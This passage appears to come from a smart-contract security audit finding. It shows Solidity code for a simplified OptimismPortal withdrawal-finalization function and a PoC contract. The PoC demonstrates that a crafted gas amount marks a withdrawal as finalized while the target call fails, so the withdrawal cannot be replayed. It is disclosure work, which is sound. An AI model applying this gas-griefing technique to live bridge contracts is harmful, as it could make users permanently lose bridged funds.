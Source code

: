 ```solidity=
        // Mark the withdrawal as finalized so it can't be replayed.
        finalizedWithdrawals[withdrawalHash] = true;

        // We want to maintain the property that the amount of gas supplied to the call to the
        // target contract is at least the gas limit specified by the user. We can do this by
        // enforcing that, at this point in time, we still have gaslimit + buffer gas available.
        require(
            gasleft() >= _tx.gasLimit + FINALIZE_GAS_BUFFER,
            "OptimismPortal: insufficient gas to finalize withdrawal"
        );

        // Set the l2Sender so contracts know who triggered this withdrawal on L2.
        l2Sender = _tx.sender;

        // Trigger the call to the target contract. We use SafeCall because we don't
        // care about the returndata and we don't want target contracts to be able to force this
        // call to run out of gas via a returndata bomb.
        bool success = SafeCall.call(
            _tx.target,
            gasleft() - FINALIZE_GAS_BUFFER,
            _tx.value,
            _tx.data
        );

        // Reset the l2Sender back to the default value.
        l2Sender = DEFAULT_L2_SENDER;

        // All withdrawals are immediately finalized. Replayability can
        // be achieved through contracts built on top of this contract
        emit WithdrawalFinalized(withdrawalHash, success);
    }
}

contract PoC {
    uint256 internal constant TO_USE_AS_SAFE_GAS_LIMIT = 3000000 + 30000;
    uint256 internal constant TO_USE_AS_INCORRECT_GAS_FOR_PROCESS_TRANSACTION = 3000000 + 80000;
    uint256 internal constant ADDITIONAL_OVERHEAD_TO_COVER_EXTRA_EXPENSES = 3000;

    constructor() {
        OptimismPortalSimplified optimismPortalSimplified = new OptimismPortalSimplified();
        CustomBridge customBridge = new CustomBridge(optimismPortalSimplified);

        require(gasleft() >= 10000000);
        require(customBridge.stateMarker() == 0);
        
        OptimismPortalSimplified.WithdrawalTransaction memory tx = OptimismPortalSimplified.WithdrawalTransaction({
            nonce: 0,
            sender: address(123),
            target: address(customBridge),
            value: 0,
            gasLimit: TO_USE_AS_SAFE_GAS_LIMIT + ADDITIONAL_OVERHEAD_TO_COVER_EXTRA_EXPENSES,
            data: abi.encodeWithSelector(CustomBridge.processCrossChainTransaction.selector, hex"abcd", 1)
        });
        optimismPortalSimplified.finalizeWithdrawalTransaction{gas: TO_USE_AS_INCORRECT_GAS_FOR_PROCESS_TRANSACTION}(tx);
        require(customBridge.stateMarker() == 0);
        require(optimismPortalSimplified.finalizedWithdrawals(Hashing.hashWithdrawal(tx)));
            
        customBridge.processCrossChainTransaction{gas: TO_USE_AS_SAFE_GAS_LIMIT}(hex"abcd", 1);
        require(customBridge.stateMarker() == 1);
    }
```